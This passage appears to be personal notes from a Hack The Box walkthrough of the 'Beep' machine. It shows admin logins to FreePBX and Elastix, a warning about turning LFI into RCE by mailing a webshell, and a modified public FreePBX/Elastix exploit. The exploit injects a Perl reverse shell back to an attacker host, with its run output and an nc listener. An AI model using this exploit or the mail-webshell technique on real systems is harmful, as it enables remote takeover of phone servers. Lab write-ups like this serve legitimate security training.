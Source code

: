 >[!warning]
>LFI can also lead to RCE due to the fact that it is possible to send email using the open Postfix server. Injecting a webshell inside the body of an email and sending it to an existing user it is possible to exploit the LFI to force the application to open /var/mail/\<user\> and execute the injected code

Logged in FreePBX using admin credentials:

![Pasted image 20210427161831.png](../../zzz_res/attachments/Pasted_image_20210427161831.png)

Logged in Elastix using admin credentials:

![Pasted image 20210427162622.png](../../zzz_res/attachments/Pasted_image_20210427162622.png)

Enumerated all the software versions:

![Pasted image 20210427162924.png](../../zzz_res/attachments/Pasted_image_20210427162924.png)

Enumerated the web portal:

![Pasted image 20210427163642.png](../../zzz_res/attachments/Pasted_image_20210427163642.png)

## FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution (#2)

PoC already fixed from SSL errors: [18650-fixed.py](https://gist.githubusercontent.com/thel3l/a78c08272781130317d0bc73d1881d28/raw/4b5694a7486f827072662e4a3555625d43d3689c/18650-fixed.py)

Fixed the exploit setting the right parameters and added a print function:

```python
...
rhost="10.10.10.7"
lhost="10.10.14.24"
lport=5505
extension="1000"
...
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
print url
urllib2.urlopen(url, context=ctx)
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ python 18650-fixed.py 
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.24%3a5505%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ nc -nlvp 5505        
listening on [any] 5505 ...
```
